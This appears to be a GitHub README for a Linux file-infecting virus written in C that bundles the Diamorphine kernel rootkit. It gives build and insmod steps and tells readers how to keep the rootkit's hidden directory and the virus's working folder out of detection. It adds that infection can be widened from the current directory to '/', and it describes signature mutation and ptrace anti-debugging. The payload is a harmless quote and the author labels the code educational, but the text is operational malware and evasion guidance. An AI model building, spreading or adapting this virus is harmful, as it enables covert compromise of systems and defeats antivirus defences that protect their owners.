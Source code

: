 # Nestor_Makhno
Linux virus in C that uses mutation and rootkit functionality

Nestor Makhno is a simple Linux virus that uses a rootkit(Diamorphine) to help hide its tracks and avoid av detection. The historical Nestor Makhno was famous for a lot, but one thing was being the first to begin using machine guns on covered wagons. He didn't create machine guns or wagons, but he knew these things would work well together. His ideas are still credited as the first proto-tank and first drive-by shooting. The Diamorphine rootkit existed long before the virus code added here. Its mostly used to make the process invisible in the pids.c file. As-is, it will also be used to create a hidden directory in /dev/shm/diamorphine_secret_def_not_a_virus. To avoid detection we suggest renaming this directory in the code of simmple.c

```$ grep mkdir virus/simple.c
   mkdir("/dev/shm/diamorphine_secret_def_not_a_virus",0775);```

Diamorphine will hide any folder on the system who's name begins with "diamorphine_secret". So be sure to include this with any locations that should be hidden. You may also want to build and run the virus portion of Nestor_Makhno from a folder like this to avoid dectection as well. 

To use this code, first go to the Diamorphine directory, build and install it:

$ cd ./Diamorphine
; make
; sudo insmod ./diamorphine.ko

If you expirence errors, you most likely do not have kernel headers installed. On Debian you may install them with the following:

$ sudo apt search linux-headers-$(uname -r)

Then go to the directory for the virus and build it:

$ cd ../virus
; make

To prevent abuse, there is no real payload used with this code. Instead only an infamous quote by the historical Nestor Makhno will be injected into binaries. After completing you will find a binary called 'Nester_Makhno' and another called 'hello' to be used for testing. The code is set here to only infect files in the same directory:

$ grep '^   scan' virus/simple.c<br>
   scan_dir(".", virus);

The above location may be editted to '/' or any desired location if you have a vm or sandbox. It should go without sayinig, but DO NOT RELEASE THIS CODE INTO THE WILD. THIS IS FOR TESTING AND EDUCATIONAL PURPOSES ONLY. I am not responsible for any damage this may cause and depending on your location, running this code may be illegal on devices you do not own. So you have been warned. 

Running the code you will see the quote from our payload: 

$ cd ./virus
; ./Nestor_Makhno<br>
Death to all those who stand in the way of freedom for the working people!
 
You can silence this by outputting to /dev/null. After this, you will find the hello binary will also excute this quote:

$ ./hello        
Death to all those who stand in the way of freedom for the working people!<br>
Hello!

This is despite this string not being found in the code of hello.c:

$ cat ./hello.c <br>
#include <stdio.h> <br>

int main(){ <br>
&nbsp;&nbsp;&nbsp;&nbsp;printf("Hello!\n");<br>
}<br>

Using virus strategies of the past, the modify.c file in the virus directory is used to randomly obscure this code's signature in memory. Basically making this a mutation virus as well. PTRACE has been used in trace.c to help prevent debugging. Combined with the rootkit functionality, this will make detection much more difficult, but not impossible.

If you wish to make changes to this code, the following line will need to be updated:

$ grep 'define PARASITE_LENGTH' simple.c<br>
#define PARASITE_LENGTH 14800 /* PARASITE_LENGTH the size of compiling virus */

This will need to match the number of bytes in the compiled binary:

$ ls -l Nestor_Makhno<br>
-rwxr-xr-x 1 user user 14800 Mar  9 02:19 Nestor_Makhno

Otherwise functionality of the virus might cease to work correctly.

Information on the historical Nestor Makhno may be found here:

https://en.wikipedia.org/wiki/Nestor_Makhno

Information on the Diamorphine may be found here:

https://github.com/bms8197/diamorphine 
